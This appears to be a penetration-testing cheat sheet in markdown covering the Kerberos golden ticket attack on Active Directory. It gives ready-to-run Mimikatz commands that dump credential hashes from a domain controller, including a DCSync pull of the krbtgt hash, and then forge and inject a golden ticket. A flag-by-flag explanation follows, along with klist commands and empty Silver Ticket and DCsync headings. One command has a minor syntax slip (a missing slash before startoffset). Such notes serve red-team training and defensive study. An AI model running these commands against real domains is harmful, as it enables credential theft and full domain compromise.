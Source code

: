 ## Golden Ticket
- Forges a fake TGT ticket to submit to the DC to get the TGS ticket.
- A golden ticket is signed and encryted by the hash of krbtgt account which makes it a valid TGT ticket
- krbtgt user hash could be used to imperasonate any user with any privileges even a non-domain machine

 ### Hash Dump to get KrbTGT hash
Execute Mimikatz on DC as Admin
```
# Hash dump
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername {Computer Name}

# DC sync hash dump
Invoke-Mimikatz -Command '"lsadump::dcsync /user:{USERNAME}"'
```
> domain\krbtgt
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain: /sid: /krbtgt: startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
> - /user = Uername for which the TGT will generate
> - /domain: domain - FQDN
> - /sid - SID of the domain
> - /krbtgt: - NTLM (RC4) hash of the krbtgt acc
> - /aes128 /aes256 - AES key (optional)
> - id:500 /groups:512 (optional)
> - /ptt (inject the ticket to PS)
> - /ticket (save the ticket to a file)
> - /startoffset - when the ticket is available in minutes. Check the policy for the ticket. If not specificed its 0
> - /endin - ticket lifetime default is 10 years. Default AD setting is 10 hours (600mins)
> - /renexmax - ticketlifetime with renewal (default 10 years). AD default is 7 days (10080)

### Display tickets
```
# Display
klist

# Purge all tickets
klist purge
```
## Silver Ticket
## DCsync
